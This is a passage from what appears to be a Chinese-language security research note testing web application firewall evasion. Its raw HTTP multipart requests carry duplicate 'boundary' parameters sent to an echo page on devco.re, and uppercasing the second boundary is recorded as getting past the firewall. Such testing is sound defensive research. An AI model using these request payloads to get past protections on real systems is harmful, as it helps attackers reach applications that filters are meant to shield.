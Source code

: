 ```request
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="file"; filename="XX"; 
Content-Type: text/plain 

DEVCORE 
--x--
foo
```
#### Double Boundary 測試 WAF
1. 找個回顯的測試頁面，確保結果正確
![image](https://hackmd.io/_uploads/B1Q3JVaV1x.png)
2. 測試正常 Double Boundary: 403 WAF 阻擋
```request
POST /echo.aspx HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; boundary=x; boundary=y; 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="msg" 
Content-Type: text/plain 

1 
--x--
```

3. 第一個 Boundary 改成大寫: 403 WAF 阻擋
```request
POST /echo.aspx HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; BOUNDARY=x; boundary=y; 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="msg" 
Content-Type: text/plain 

1 
--x--
```

4. 第二個 Boundary 改成大寫: 200 OK
```request
POST /echo.aspx HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; boundary=x; BOUNDARY=y; 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="msg" 
Content-Type: text/plain 

1 
--x--
```
> Bypass WAF 後，測試 Server 可以識別的其他方式
